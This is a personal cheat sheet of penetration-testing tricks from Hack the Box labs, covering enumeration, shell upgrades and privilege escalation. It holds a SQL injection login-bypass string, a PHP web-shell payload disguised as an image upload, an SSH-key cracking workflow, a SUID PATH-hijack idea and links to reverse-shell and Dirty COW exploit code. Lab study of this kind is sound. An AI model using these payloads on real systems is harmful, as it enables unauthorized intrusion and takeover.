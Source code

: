 # tricks-htb
Tricks learned while working on the Hack the Box lab.

### Create Python http server to serve files
```bash
python -m SimpleHTTPServer
python3 -m http.server
```

### Bypass login
(magic) Try SQL injection in the login form. Pass this as user and password: `' or 1 = 1--`

### Enumeration
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/

### PHP reverse shell
https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

### Spawn bash shell using Python
```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```
The press ctrl + z

Then run: `stty raw -echo`

Then write `fg` and press enter (note there's no output of `fg`)

### Reverse shell cheatsheet
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

### Dump traffic on an interface to console
This is useful when blind-exploiting a system, among other situations. Just dump the traffic of an interface to console:
```
tcpdump -i tun0 
```

### Exploit suggester for postexploitation on Metasploit
Use `post/multi/recon/local_exploit_suggester` after a non-admin meterpreter session is created in order to get suggestions on which exploits could be executed next.

### DNS
DNS servers are added to `/etc/resolv.conf`. It may be useful for when the server just accepts requests when host equals to _machineName.htb_. Otherwise the same could be achieved by adding an entry to the file `/etc/hosts`.

### SMB
Use smbmap to enumerate SMB. `smbmap -H $HOST_IP` 

### Redirects
If when intercepting the server responses with a proxy and the `302 Found` response has some content, the HTTP response number and code can be manually changed to, for example, `200 OK` to see the content on the browser instead of following the redirect.

### Abstract shit
- If there are so many things that look the same, check if there's one of them that's different. In general, this can be files sizes, files contents, etc.

### Shell from mysql
Run this from mysql to drop to a shell and see what user you are on:
`\! /bin/sh`

### Injecting php shell in image file
- Upload a proper image with the intercept on the proxy
- From the proxy, keep the following code as the "image"'s content: `{{imageMagicBytes}} <?php echo system($_REQUEST['whatever']); ?>`
- Also change the file name and append `.php` (if the image name is image.gif, it would be image.gif.php)
- Access the file from the browser and add `?whatever={{command}}`

Tip: The `file` command gets a file's type. It may be useful for checking if 

### Wordpress
Use `wpscan` to scan Wordpress sites.

### jar files
Jar files can be decompiled to get information from them. First, unzip it using `unzip`, then decompile the unzipped .class file using the program `jad`.

### Do several scans concurrently
Mainly for when there are several services running on the server, but it should be always done that way. After the initial nmap scan has finished, start several scans depending on the case. Eg if port 80 is open, trigger gobuster (with 2 lists, one short and one longer), nikto and maybe an nmap vuln scan.

### Check if port is open with nc
`nc -zv $HOST_IP $PORT`

### Scan all the ports with nmap
To scan all the ports with nmap add `-p-`.

### Threads number
For max speed while running scans don't forget to increase the number of threads.

### Also enumerate recursively
Recursive enumeration is important whenever we run out of options.

### exiftool to get files metadata
Use: `exiftool {{filename}}`
Note that browsers sometimes squash some metadata when downloading files, so download them using `wget` instead.

### Use book.hacktricks.xyz
Great resource, do check out when Duckduckgoing.

### Redis
When redis is available on the server, a common thing to try is to upload a file to gain access. https://book.hacktricks.xyz/pentesting/6379-pentesting-redis

### Get strings from a binary
Use `strings {{filename}}` to get strings from binaries. This may help find passwords or other sensitive information.

### Multiple windows with `tmux` or `screen`

### Find files and directories you can write
`find . -writable`

### Redirect errors to /dev/null `2>/dev/null`
https://askubuntu.com/questions/350208/what-does-2-dev-null-mean

### Get information about files using `stat`
Use {{filename}}

### Identify hash type
Use `hash-identifier`

### Bruteforce ssh key with John the Ripper
If you run into an encrypted ssh key, that will start by something like this:
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C
```

Then the process of bruteforcing has 2 steps:
1) Transform from ssh format to john format:
`python /usr/share/john/ssh2john.py key.ssh > key.john.ssh`
2) Bruteforce:
`john -wordlist={{wordlist path}} key.john.ssh`

### Dirty cow Linux privesc
Apparently very common for many outdated Linux kernels.
https://github.com/FireFart/dirtycow/blob/master/dirty.c

### `steghide` to extract or inject files in images

### Privesc trick
When a SUID program invokes another program just by its name without specifying location, it may be possible to do a PATH trick to make it execute the wrong one as root: inject another dir to the path that contains a program with the same name but performs something we want. (FIXME reword this)

### Reverse engineering a binary with `strace` and `ltrace`
It is possible to capture the system calls running `strace {{program}}` and the library calls using `ltrace {{program}}`
